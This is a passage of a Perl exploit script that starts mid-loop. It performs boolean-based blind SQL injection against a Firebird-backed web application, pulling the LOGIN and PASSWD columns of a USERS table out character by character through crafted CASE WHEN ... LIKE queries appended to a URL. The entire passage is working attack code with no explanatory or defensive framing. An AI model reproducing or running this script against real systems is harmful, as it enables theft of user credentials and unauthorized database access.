 ```
                $b++;
        }
}
if($b==122-97){
        last;
}else{
$b=0;
}
}
print "\n";

#extract data from USERS ( LOGIN,PASSWD)

$fst="case when(1=(select first 1 1 from USERS where LOGIN LIKE ";
$snd="||ascii_char(37) )) then (select first 1 1 from rdb\$relations) else (select first 2 1 from rdb\$relations) end";
for($j=0;$j<100;$j++){
for($i=65;$i<=122;$i++){
        $sql=$url.$fst."ascii_char(".$i.")".$snd;
        #print $j." ".$i."\n";

        $html=get $sql;
        if ($html=~/1337/ && $i!=37 && $i!=95){
                print chr($i)."\n";
                $fst.="ascii_char(".$i.")||";
                last;
        }else{
                $b++;
        }
}
if($b==123-65){
        last;
}else{
$b=0;
}
}
print "\n";

$fst="case when(1=(select first 1 1 from USERS where PASSWD LIKE ";
$snd="||ascii_char(37) )) then (select first 1 1 from rdb\$relations) else (select first 2 1 from rdb\$relations) end";
for($j=0;$j<100;$j++){
for($i=48;$i<=122;$i++){
        $sql=$url.$fst."ascii_char(".$i.")".$snd;
        #print $j." ".$i."\n";

        $html=get $sql;
        if ($html=~/1337/ && $i!=37 && $i!=95){
                print chr($i)."\n";
                $fst.="ascii_char(".$i.")||";
                last;
        }else{
                $b++;
        }
}
if($b==123-48){
        last;
}else{
$b=0;
}
}
print "\n";

```